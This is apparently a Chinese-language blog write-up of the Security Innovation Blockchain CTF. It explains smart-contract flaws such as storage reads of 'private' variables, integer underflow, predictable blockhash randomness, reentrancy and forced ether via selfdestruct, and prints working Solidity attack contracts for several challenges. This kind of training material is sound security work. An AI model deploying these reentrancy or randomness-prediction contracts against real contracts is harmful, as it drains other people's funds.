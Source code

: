 ```yaml
---
title: "[OJ] Security Innovation Blockchain CTF"
date: 2019-06-07 00:00:00
categories:
- [security, writeups]
tags:
- ctf
- security
- writeups
- blockchain
---
```


## Donation

這題是簽到題  
就只是讓我們呼叫合約裡面的這個函式 `withdrawDonationsFromTheSuckersWhoFellForIt`  

## Lock Box

這題有個 `private` 的 `pin` 變數，但是 `private` 只是代表那個變數沒有 `getter` 函式，把合約的狀態抓下來就看光光啦  
使用 [`web3.eth.getStorageAt`](https://web3js.readthedocs.io/en/1.0/web3-eth.html#eth-getstorageat) 這個函式  
父合約的變數會在子合約的變數的前面  
所以 position 0 的位址是 `authorizedToPlay`，而 position 1 的位址就是 `pin`  
變數在 storage 裡面怎麼擺的可以參考這篇 [Understanding Ethereum Smart Contract Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Piggy Bank

這題直接呼叫 `collectFunds` 就好了  
只有 `PiggyBank` 的 `collectFunds` 有 `onlyOwner`，`CharliesPiggyBank` 的 `collectFunds` 沒有 `onlyOwner`  

## SI Token Sale

這題的 `purchaseTokens` 沒有用 SafeMath，也沒有檢查 `_value` 要大於 `feeAmount`  
先轉個 `0.000001` 給合約，這樣 `0.000001 - 0.00001` 就會 underflow 變成很大的數字，就得到了超多的 token  
然後再用 `refundTokens` 就可以半價把 token 換成 ether 錢錢了

## Secure Bank

`SecureBank` 的 `withdraw` 和 `MembersBank` 的 `withdraw` 其中的 `_value` 參數形態不一樣  
他們會被看成是不一樣的函式，所以會有兩個不一樣的型態 `withdraw` 可以呼叫  
而 `MembersBank` 的 `withdraw` 沒有檢查是不是本人，所以就直接把 contract creator 的錢領走

## Lottery

這題要猜 `entropy^entropy2` 的值，猜到就可以拿走裡面的錢錢

`entropy = blockhash(block.number)`，但是我們沒辦法知道這個 block 的 blockhash，因為這個 block 還沒算完  
但這樣寫不會有錯誤，只是出來的值會是 `0`  
既然 `entropy = 0` 那就只剩 `entropy2`，而 `entropy2` 是根據 `msg.sender` 來的  
所以我們可以直接算出 `_seed` 的值  
可以直接用 [remix](https://remix.ethereum.org) 寫個簡單的 smart contract 幫我們算那個值，然後利用 `event` 來印出那個值 ( 當 print 用 )  

```solidity
pragma solidity ^0.5.9;

contract test {
    event Log(bytes32 value);
    
    function go () public {
        emit Log(keccak256(abi.encodePacked(msg.sender)));
    }
}
```

或是直接寫一個攻擊合約，去呼叫 `play` 函式  
記得要先把這個合約加到 `authorizedToPlay`，如果是 gas 不夠就調高 gas limit 吧

```solidity
pragma solidity ^0.5.9;

import "./challenge.sol";

contract hack {
    function exploit(address payable _target) public payable {
        Lottery target = Lottery(_target);

        bytes32 entropy2 = keccak256(abi.encodePacked(this));
        uint256 seeds = uint256(entropy2);

        target.play.value(msg.value)(seeds);

        msg.sender.transfer(address(this).balance);
    }
}
```

## Trust Fund

這題是經典的 reentrant attack  

```solidity
pragma solidity ^0.5.9;

contract TrustFund {
    function withdraw() external {}
}

contract hack {
    address target = 0xd297ab1c9653295BdE4f6b2e32574Ac5DD994997;
    uint count = 10;

    function () external payable {
        if (count > 0) {
            count--;
            TrustFund trust = TrustFund(target);
            trust.withdraw();
        }
    }

    function exploit () public {
        TrustFund trust = TrustFund(target);
        trust.withdraw();
    }
    
    function withdraw () public {
        msg.sender.transfer(address(this).balance);
    }
}
```

## Heads or Tails

這題跟 Lottery 很像，不過用的是上一個 block 的 blockhash  
那就寫個攻擊合約去呼叫 `play`，就可以算出一樣的 `entropy`  
給 `0.1 ether` 能賺 `0.05 ether`，所以玩個 20 次就把錢全部撈出來啦  
記得要寫 `fallback` 函式才能接錢進來呀 ( 我這裡卡超久der )

```solidity
pragma solidity ^0.5.9;

contract HeadsOrTails {
    function play(bool _heads) external payable {}
}

contract hack {
    address target = 0xf8583ccB9900615e0b8304A16539EBFD96c2B0af;

	function () external payable {}

    function exploit () public payable {
        bytes32 entropy = blockhash(block.number - 1);
        bool coinFlip = (entropy[0] & '\x01') == '\x01';

        HeadsOrTails heads = HeadsOrTails(target);

		for (uint i = 0; i < 20; i++) {
			heads.play.value(0.1 ether)(coinFlip);
		}

        msg.sender.transfer(address(this).balance);
    }
}
```

## Record Label

這題的題目很長，主要的邏輯就是你領錢的時候會被 `royalties` 抽成，`manager` 會抽成 80 趴的錢錢  
所以如果直接呼叫 `withdrawFundsAndPayRoyalties` 就可以拿到 `0.2 ether`，`royalties` 抽走 `0.8 ether`，這題就解掉了 ( 題目合約 `balance = 0` )  
不過正確的解法 ( 我全都要 ) 應該是找出 `_manager` 的地址，然後呼叫 `addRoyaltyReceiver` 把 `receiverToPercentOfProfit` 這個 mapping 中 `_manager` 的 percent 覆寫成 0  
這樣去領錢就不會被抽成了

## Slot Machine

這題的題目很短，就一個 `fallback` 函式  
但是第一行限制一次只能匯款 `1 szabo` ( `0.000001 ether` )  
目標是要讓這個合約的 balance 大於等於 `5 ether`，他就會把所有錢錢都給你  
其中一個不透過 `fallback` 給錢的方法就是用 `selfdestruct`  
`selfdestruct` 就是把合約清除掉，在被清除掉之前，這個合約可以把他的錢錢匯款給一個帳戶，而這個匯款的動作不會經過 `fallback` 函式  
寫一個攻擊合約，並給他 `5 ether`，讓他自我毀滅，並在毀滅之前把 `5 ether` 匯款給題目合約

```solidity
pragma solidity ^0.5.9;

contract hack {
    function exploit () public payable {
        selfdestruct(address(0x22f616f6b95e23efa8FBBAE44BeeC05890E12A4E));
    }
}
```

---

1. [https://f3real.github.io/tag/ethereum.html](https://f3real.github.io/tag/ethereum.html)
2. [https://xz.aliyun.com/t/2759](https://xz.aliyun.com/t/2759)
